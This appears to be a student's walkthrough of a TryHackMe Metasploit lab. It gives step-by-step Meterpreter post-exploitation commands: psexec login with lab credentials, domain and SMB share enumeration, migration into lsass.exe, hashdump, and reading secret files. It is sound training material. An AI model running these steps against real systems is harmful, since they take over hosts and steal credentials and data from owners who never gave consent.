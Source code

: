 # Metasploit Meterpreter: Post-Exploitation

This guide explores the use of Metasploit’s Meterpreter for post-exploitation activities, emphasizing enumeration, file retrieval, and credential extraction. It also integrates the provided questions to enhance understanding of each step.

## Step 1: Initial Access with psexec Module
Objective: Gain access to the target system using the SMB psexec module

1.Load the psexec Module:

I initiated the attack using the SMB psexec module:

- use exploit/windows/smb/psexec

![image](https://github.com/user-attachments/assets/65b57a26-a6a5-4347-a46d-be3ecd879624)


2.Set Necessary Options:

I configured the essential settings, including the target host (RHOST), SMB credentials (SMBUser and SMBPass), and the local IP (LHOST):

- set RHOST 10.10.129.7
- set SMBUser ballen
- set SMBPass Password1
- set LHOST 10.10.13.1
  
![image](https://github.com/user-attachments/assets/2eec1ccc-c1d7-4b07-b0c7-d9475431894c)

![image](https://github.com/user-attachments/assets/42eea95e-2b14-4657-9a5f-2a4c5049b837)


3.Run the Exploit:

After configuring, I launched the exploit:

- run

![image](https://github.com/user-attachments/assets/fb82d14f-de4a-4bba-ac1c-1a35b3935a61)

This successfully opened a Meterpreter session on the target machine.

## Step 2: Retrieving System Information 
Objective: Identify key details of the compromised system.

1.Execute System Info Command:

I ran the following command to gather information:

- sysinfo

![image](https://github.com/user-attachments/assets/6492ebf4-1e22-4dc8-8a8f-ff01ffdb0867)


The output confirmed the computer name as ACME-TEST, and the domain as FLASH, running on x64 architecture.

## Step 3: Domain Enumeration
Objective: Enumerate details about the domain and its controller.

1.Use Domain Enumeration Module:

I loaded the enum_domain module:

- use post/windows/gather/enum_domain

![image](https://github.com/user-attachments/assets/44fa5fad-048e-47b4-b014-b4b733e1ba86)


Configured it with the active session:

- set session 1

![image](https://github.com/user-attachments/assets/5134beb4-6c0b-47a6-854f-58e055509321)


2.Run the Enumeration:

I executed the module:

- run

The output provided details including the domain (FLASH.local), the NetBIOS name (FLASH), and the domain controller (ACME-TEST).

![image](https://github.com/user-attachments/assets/361a6f2a-01ba-4f3d-a0a4-2da70d989a18)


## Step 4: Enumerating SMB Shares
Objective: Identify shared resources on the compromised system.

1.Search and Use the SMB Share Enumeration Module:

I searched for the relevant module:

- search enum_shares
- use post/windows/gather/enum_shares

![image](https://github.com/user-attachments/assets/a1231cca-2228-4de3-bb60-ec4075d5545c)


2.Set and Execute:

Set the session:

- set session 1

Ran the module to gather share details:

- run

The output displayed shares like SYSVOL, NETLOGON, and a custom share speedster.

![Capture d'écran 2024-10-19 132722](https://github.com/user-attachments/assets/377223c2-6c1d-470f-b2d7-96d6efa628fb)


## Step 5: Process Management and Migration
Objective: List processes and migrate Meterpreter to a stable process.

1.List All Processes:

To view active processes, I executed:

- ps

I identified critical processes such as lsass.exe.

![Capture d'écran 2024-10-19 132752](https://github.com/user-attachments/assets/993fab0a-1151-4679-a4fe-82016f785a3d)


2.Migrate to a Stable Process:

I chose lsass.exe (PID: 772) for migration:

- migrate 772

This migration stabilizes the session and may grant access to sensitive information.

![Capture d'écran 2024-10-19 132805](https://github.com/user-attachments/assets/eb5d71a7-d77c-459b-871a-4472af52c3ee)


## Step 6: Dumping Password Hashes
Objective: Extract password hashes from the compromised system.

1.Run the Hash Dump Command:

Using Meterpreter:

- hashdump

The command output hashes for several users including Administrator, ballen, and jchambers.

## Step 7: File Search and Retrieval
Objective: Locate and read sensitive files on the system.

1.Search for Files:

I searched for a specific file:

- search -f secrets.txt

The file was located at:

- c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt

![Capture d'écran 2024-10-19 132820](https://github.com/user-attachments/assets/c216e515-5901-4c3a-8807-050e5dea3a04)


2.Read File Contents:

I accessed the file using:

- cat "c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt"

![image](https://github.com/user-attachments/assets/8d3fe864-240f-46e0-a9de-dfb14012b550)


## Step 8: Further File Discovery
Objective: Search for additional sensitive files.

1.Search for Another File:

I ran another search:

- search -f realsecret.txt

Found the file at:

- c:\inetpub\wwwroot\realsecret.txt

2.Access the File:

Read the file:

- cat "c:\inetpub\wwwroot\realsecret.txt"

![image](https://github.com/user-attachments/assets/e9ce0c29-2982-44e3-8768-8fb06d8a33aa)



---------------------------------------------

Summary
This walkthrough demonstrates the effective use of Metasploit's Meterpreter for advanced post-exploitation. Each step showcases the versatility of the tool, from enumeration and credential extraction to file system exploration and data retrieval. Mastering these techniques is essential for anyone aspiring to become a proficient pentester.

Key Takeaways:

Exploiting SMB services and valid credentials can lead to significant access in a target environment.
Post-exploitation tasks such as process migration, domain enumeration, and hash dumping provide deeper control and insight.
The ability to search for and retrieve files reveals the true value of accessing sensitive data

For further resources:

Metasploit Framework Documentation: In-depth details and guidance.
TryHackMe Metasploit Room: Hands-on exercises to practice Metasploit skills.























